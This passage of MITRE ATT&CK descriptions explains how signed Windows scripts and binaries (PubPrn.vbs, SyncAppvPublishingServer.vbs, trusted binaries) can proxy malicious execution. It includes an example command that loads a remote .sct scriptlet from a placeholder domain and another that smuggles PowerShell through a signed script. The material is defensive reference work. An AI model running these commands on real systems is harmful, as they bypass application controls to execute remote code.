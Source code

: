 Adversaries may abuse PubPrn to execute malicious payloads hosted on remote sites.(Citation: Enigma0x3 PubPrn Bypass) To do so, adversaries may set the second <code>script:</code> parameter to reference a scriptlet file (.sct) hosted on a remote site. An example command is <code>pubprn.vbs 127.0.0.1 script:https://mydomain.com/folder/file.sct</code>. This behavior may bypass signature validation restrictions and application control solutions that do not account for abuse of this script.

In later versions of Windows (10+), <code>PubPrn.vbs</code> has been updated to prevent proxying execution from a remote site. This is done by limiting the protocol specified in the second parameter to <code>LDAP://</code>, vice the <code>script:</code> moniker which could be used to reference remote code via HTTP(S).

#### T1216.002 - System Script Proxy Execution: SyncAppvPublishingServer

Description:

Adversaries may abuse SyncAppvPublishingServer.vbs to proxy execution of malicious [PowerShell](https://attack.mitre.org/techniques/T1059/001) commands. SyncAppvPublishingServer.vbs is a Visual Basic script associated with how Windows virtualizes applications (Microsoft Application Virtualization, or App-V).(Citation: 1 - appv) For example, Windows may render Win32 applications to users as virtual applications, allowing users to launch and interact with them as if they were installed locally.(Citation: 2 - appv)(Citation: 3 - appv)
    
The SyncAppvPublishingServer.vbs script is legitimate, may be signed by Microsoft, and is commonly executed from `\System32` through the command line via `wscript.exe`.(Citation: 4 - appv)(Citation: 5 - appv)

Adversaries may abuse SyncAppvPublishingServer.vbs to bypass [PowerShell](https://attack.mitre.org/techniques/T1059/001) execution restrictions and evade defensive counter measures by "living off the land."(Citation: 6 - appv)(Citation: 4 - appv) Proxying execution may function as a trusted/signed alternative to directly invoking `powershell.exe`.(Citation: 7 - appv)

For example,  [PowerShell](https://attack.mitre.org/techniques/T1059/001) commands may be invoked using:(Citation: 5 - appv)

`SyncAppvPublishingServer.vbs "n; {PowerShell}"`


### T1218 - System Binary Proxy Execution

Description:

Adversaries may bypass process and/or signature-based defenses by proxying execution of malicious content with signed, or otherwise trusted, binaries. Binaries used in this technique are often Microsoft-signed files, indicating that they have been either downloaded from Microsoft or are already native in the operating system.(Citation: LOLBAS Project) Binaries signed with trusted digital certificates can typically execute on Windows systems protected by digital signature validation. Several Microsoft signed binaries that are default on Windows installations can be used to proxy execution of other files or commands.

Similarly, on Linux systems adversaries may abuse trusted binaries such as <code>split</code> to proxy execution of malicious commands.(Citation: split man page)(Citation: GTFO split)

#### T1218.001 - System Binary Proxy Execution: Compiled HTML File
